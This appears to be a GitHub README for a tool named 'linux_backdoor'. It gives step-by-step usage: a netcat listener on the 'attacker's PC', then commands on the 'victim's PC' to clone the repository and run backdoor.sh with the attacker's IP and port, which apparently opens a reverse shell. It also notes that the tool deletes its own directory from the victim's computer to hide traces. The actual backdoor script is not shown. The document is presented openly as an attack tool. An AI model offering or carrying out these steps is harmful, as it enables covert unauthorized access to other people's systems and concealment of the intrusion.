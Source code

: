 # linux_backdoor

Usage : 

  ~ Attacker's PC ~
   
   nc -lvnp 443
   
  ~ Victim's PC ~

  git clone https://github.com/KingstonCyberSec/linux_backdoor.git
  
  cd linux_backdoor
  
  chmod +x *
  
  bash backdoor.sh <Attacker IP> <Port>
  
Images :

![github](https://user-images.githubusercontent.com/115974774/201770400-185f3e45-665a-45e7-95a3-1ed8ebc3614f.png)

Note : 

Once the backdoor is injected, it will automatically delete the linux_backdoor directory from the victim's computer.
  



